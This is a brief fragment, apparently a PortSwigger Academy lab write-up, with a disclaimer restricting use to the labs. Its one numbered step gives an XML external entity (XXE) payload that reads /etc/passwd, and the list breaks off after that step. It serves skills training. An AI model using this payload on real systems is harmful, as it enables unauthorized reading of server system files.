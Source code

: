 *Remember! Do not attempt to use this information outside PortSwigger Academy Labs. It is only for the purposes of education and skills development.*

1. `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
2. 